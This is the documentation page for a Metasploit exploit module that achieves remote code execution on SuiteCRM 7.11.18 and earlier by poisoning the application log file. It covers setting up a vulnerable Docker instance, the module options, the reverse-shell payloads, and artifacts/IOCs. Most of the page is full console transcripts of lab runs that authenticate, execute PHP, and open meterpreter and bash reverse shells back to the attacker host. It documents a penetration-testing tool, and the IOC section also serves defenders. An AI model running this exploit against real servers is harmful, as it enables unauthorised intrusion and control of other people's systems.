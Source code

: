 ## Vulnerable Application

SuiteCRM versions 7.11.18 and below. https://docs.suitecrm.com/admin/releases/7.11.x/#_7_11_18  

### Installation
Installation: https://docs.suitecrm.com/admin/installation-guide/downloading-installing/  

The fastest way to stand up a quick test instance is with docker. Bitnami hosts docker images and `docker-compose.yml` files.

Docker installation: https://docs.docker.com/get-docker/

```
curl -sSL https://raw.githubusercontent.com/bitnami/bitnami-docker-suitecrm/master/docker-compose.yml > docker-compose.yml
docker-compose up -d
```

You'll just want to edit the docker-compose file to pull the 7.11.18 release before you run `docker-compose up -d`. Example `docker-compose.yml` below:

```
  suitecrm:
    image: docker.io/bitnami/suitecrm:7.11.18
```

## Verification Steps
Example steps in this format (is also in the PR):

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/suitecrm_log_file_rce`
4. Do: `set USER [username]`
5. Do: `set PASS [password]`
6. Do: `set RHOSTS [IP]`
7. Do: `set SRVPORT [IP]`
8. Do: `set LHOST [IP] `
9. Do: `exploit`
10. You should get a shell.

## Options
### USER
Username of a user with administrator access to the SuiteCRM instance

### PASS
Password of the user with administrator access to the SuiteCRM instance

### TARGETURI
The base path to SuiteCRM. The default is `/`

### RESTORECONF
Restore the system log file settings to the default value of `suitecrm.log`. Default value is `true`

### LASTNAME
Last name you'd like to set the admin user back to after running the exploit. Default is `admin`.

### WRITABLEDIR
Any writable directory for paylod to be written. Only used for targets `0` ( `x64 meterpreter` ) and `2` ( `x86 meterpreter` )

## Targets
Default is `0` with a payload of `linux/x64/meterpreter_reverse_tcp`
```
Exploit targets:

   Id  Name
   --  ----
   0   Linux (x64)
   1   Linux (cmd)
```
Currently, this supports
* `linux/x64/meterpreter_reverse_tcp`
* `cmd/unix/bash_reverse_tcp`

There is some encoding/escaping on the php poisoning into the log file, so php code is limited. I would also presume an `x86` meterpreter would run fine, but I haven't tested it. I did test a `cmd/unix/bash_reverse_udp` and it worked fine. I would presume most `cmd` payloads will work contingent on the required tools being available on the victim machine.

### Artifacts/IOC's
Target 0 is going to leave a random, 8 character alphanumeric PHP file such as this
```
ryl2bLse.pHp
```
in the webroot and it will leave a random alphanumeric 8 character file in `WRITABLEDIR` (`/tmp` by default) similar to this
```
uG0QjRbK
```
Operators: keep an eye out for the last couple of lines of output
```
[!] This exploit may require manual cleanup of 'eTHsm71W.pHp' on the target
[!] This exploit may require manual cleanup of '/tmp/54N6HA1E' on the target
```

## Scenarios
### SuiteCRM 7.11.18 Check + Target 0 (linux x64 meterpreter)
```
msf6 > use exploit/linux/http/suitecrm_log_file_rce
[*] Using configured payload linux/x64/meterpreter_reverse_tcp
msf6 exploit(linux/http/suitecrm_log_file_rce) > set RHOSTS 192.168.122.29
RHOSTS => 192.168.122.29
msf6 exploit(linux/http/suitecrm_log_file_rce) > set USER admin
USER => admin
msf6 exploit(linux/http/suitecrm_log_file_rce) > set PASS admin
PASS => admin
msf6 exploit(linux/http/suitecrm_log_file_rce) > set SRVHOST 192.168.122.125
SRVHOST => 192.168.122.125
msf6 exploit(linux/http/suitecrm_log_file_rce) > set LHOST 192.168.122.125
LHOST => 192.168.122.125
msf6 exploit(linux/http/suitecrm_log_file_rce) > check

[*] Authenticating as admin
[+] Authenticated as: admin
[+] admin has administrative rights.
[+] SuiteCRM Version 7.11.18
[*] 192.168.122.29:80 - The target appears to be vulnerable.
msf6 exploit(linux/http/suitecrm_log_file_rce) > exploit

[*] Started reverse TCP handler on 192.168.122.125:4444 
[*] Using URL: http://192.168.122.125:8080/NzzKmKY
[*] Authenticating as admin
[+] Authenticated as: admin
[+] admin has administrative rights.
[*] Modifying systems setting file
[*] Poisoning log file
[*] Executing php code in log file: fxg8pi1C.pHp
[+] 192.168.122.29:80 - Payload sent!
[*] Meterpreter session 1 opened (192.168.122.125:4444 -> 192.168.122.29:43346) at 2021-05-21 22:52:15 -0500
[*] Restoring log file to default configuration
[*] Server stopped.
[!] This exploit may require manual cleanup of 'fxg8pi1C.pHp' on the target
[!] This exploit may require manual cleanup of '/tmp/9yCGovF5' on the target

meterpreter > getuid
Server username: daemon @ bb77d61a4df1 (uid=1, gid=1, euid=1, egid=1)
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 172.21.0.3 - Meterpreter session 1 closed.  Reason: User exit
```
### SuiteCRM 7.11.18 Check + Target 1 (Unix bash reverse TCP shell)
This was run immediately after the previous scenario. Initialization is exactly the same.
```
msf6 exploit(linux/http/suitecrm_log_file_rce) > sessions -i

Active sessions
===============

No active sessions.

msf6 exploit(linux/http/suitecrm_log_file_rce) > set target 1
target => 1
msf6 exploit(linux/http/suitecrm_log_file_rce) > run

[*] Started reverse TCP handler on 192.168.122.125:4444 
[*] Using URL: http://192.168.122.125:8080/Kle8QoPV
[*] Authenticating as admin
[+] Authenticated as: admin
[+] admin has administrative rights.
[*] Modifying systems setting file
[*] Poisoning log file
[*] Executing php code in log file: 1cOyYGE3.pHp
[+] 192.168.122.29:80 - Payload sent!
[*] Command shell session 2 opened (192.168.122.125:4444 -> 192.168.122.29:43366) at 2021-05-21 22:53:03 -0500
[*] Restoring log file to default configuration
[*] Server stopped.
[!] This exploit may require manual cleanup of '1cOyYGE3.pHp' on the target

id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
whoami
daemon
exit
[*] 192.168.122.29 - Command shell session 2 closed.

```

